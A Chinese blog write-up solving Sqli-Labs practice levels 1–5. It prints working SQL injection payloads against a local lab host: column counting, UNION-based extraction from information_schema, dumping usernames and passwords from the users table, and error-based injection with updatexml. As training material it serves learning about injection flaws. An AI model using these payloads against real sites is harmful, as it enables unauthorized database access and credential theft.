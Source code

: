 ```yaml
---
title: Sqli-Lab 靶场题解
published: 2025-07-14
description: 'Sqli-Labs 是一个专门用于练习 SQL 注入漏洞的开源靶场项目，由印度安全研究员 Dhurva 开发，本文记录了Sqli-Lab靶场的题目WP。项目地址:https://github.com/Audi-1/sqli-labs'
image: ''
tags: [sql注入]
category: '技术'
draft: false 
lang: ''
---
```


## 基础挑战 1-20关

### Less-1

经过检测为字符型

检测表的列数：

```shell
http://sqli.local/Less-1?id=1' order by 3%23
http://sqli.local/Less-1?id=1' order by 4%23
```

得出有三列，之后操作同less-2

```shell
http://sqli.local/Less-1/?id=-1' union select 1,database(),group_concat(table_name) FROM information_schema.tables WHERE table_schema="security"%23
```

![image-20250714154648520](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714154649982.png)

### Less-2

测试数字型 or 字符型

```shell
#对比两个结果
http://sqli.local/Less-2/?id=1
http://sqli.local/Less-2/?id=2-1
```

 发现结果相同，为数字型

判断回显位

```shell
http://sqli.local/Less-2/?id=-1 union select 1,2,3
```

![image-20250714135418329](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714135447824.png)

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),version()%23
```

> %23经过转义后为#，代表注释符

![image-20250714135754885](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714135756389.png)

得到数据库版本为5.7.40，可以用information_schema库查表名，列出security数据库中所有表名

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),table_name FROM information_schema.tables WHERE table_schema="security"%23
```

![image-20250714140059376](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20250714140059376.png)

但因为前端只能显示一个数据，所以需要将多条记录合成一条，用到**group_concat()**

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(table_name) FROM information_schema.tables WHERE table_schema="security"%23
```

![image-20250714140423164](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714140424670.png)

得到security数据库中的表有emails，referers，usagents，users

泄露表中的字段信息：

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="emails"%23
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="referers"%23
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="usagents"%23
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="users"%23
```

查出user表中的所有数据

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(concat_ws("-",id,username,password)) FROM security.users
```

![image-20250714142402470](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714142404372.png)

### Less-3

同Less-1,2，只是闭合方式不同：

```shell
# 闭合方式变为')
http://sqli.local/Less-2/?id=-1')
```

### Less-4

同上，但闭合方式不同

```shell
http://sqli.local/Less-4/?id=-1")
```

### Less-5

本关查询结果不会显

```shell
http://sqli.local/Less-5/?id=1' # 报错
http://sqli.local/Less-5/?id=1" # 没有报错
```

闭合方式为单引号

利用报错注入

```shell
http://sqli.local/Less-5/?id=1'and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```

![image-20250714152557928](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714152559123.png)



